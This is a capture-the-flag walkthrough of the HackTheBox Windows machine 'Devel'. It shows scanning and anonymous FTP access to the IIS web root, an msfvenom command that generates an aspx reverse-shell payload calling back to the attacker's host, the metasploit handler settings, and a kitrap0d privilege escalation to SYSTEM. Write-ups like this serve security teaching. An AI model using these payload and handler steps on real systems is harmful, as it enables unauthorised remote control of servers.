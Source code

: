 ```yaml
---
title: "HackTheBox - Devel"
author: Nasrallah
description: ""
date: 2022-08-11 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, ftp, metasploit, msfvenom]
img_path: /assets/img/hackthebox/machines/devel
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Devel](https://app.hackthebox.com/machines/Devel) from [HackTheBox](https://www.hackthebox.com). The Box is running an FTP server with anonymous login allowed on the webserver's root directory, we upload a revere shell to the ftp server and get foothold. We use exploit suggester module to find another module that gives us SYSTEM privilege.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.5
Host is up (0.12s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nmap reveals that the target is a windows machine with two open port. Port 21 is running FTP with anonymous login allowed, and port 80 running Microsoft http web server.

### Web

Let's check the web server.

![](1.png)

The website is displaying the welcome page for `IIS`. 

Running a directory scan doesn't reveal much except for a directory that we can't access.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.5/ | tee scans/gobuster                                                    130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/18 16:14:37 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 155] [--> http://10.10.10.5/aspnet_client/]
                                                                                      
===============================================================

```

### FTP

Let's move to the ftp server and login as `anonymous`.

```terminal
$ ftp 10.10.10.5   
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:sirius): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 

```

After logging in successfully and listing the content of the ftp server, we see what looks like the files of the web server we visited earlier, that means we're in the root directory of the website.  

## **Foothold**

Let's see if we can upload file to the ftp server.

![](2.png)

We managed to upload the file, now if we navigate to it in the browser we can see it's content.

![](3.png)

The next thing we need to do is upload a reverse shell, but first let's generate one using `msfvenom`.

### MSFVenom

The payload we are going to generate is a aspx file (Active Server Pages), which is Microsoft's server-side scripting language and engine for dynamic web pages, like `php`.

We use the following command to generate the reverse shell.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f aspx -o shell.aspx
```

 - -p : Payload to use.
 - LHOST : Local host/Attacking machine IP.
 - LPORT : Listening port.
 - -f : Output format.
 - o : File where to save the payload.

```terminal
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3641 bytes
Saved as: shell.aspx

```

Now let's login the the FTP server and put it there.

![](4.png)

### Metasploit

Now let's fire up metasploit, use the `multi/handler` module and set the following options.

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 9999
```

![](5.png)

After setting the options above and running the module, we request the file and receive the reverse shell.

![](6.png)


## **Privilege Escalation**

For this part, we can use `exploit_suggester` module that would give us modules to try to upgrade to system privilege.

After some trial and error, the module `ms10_015_kitrap0d` succeeds in giving us a SYSTEM shell.

![](7.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
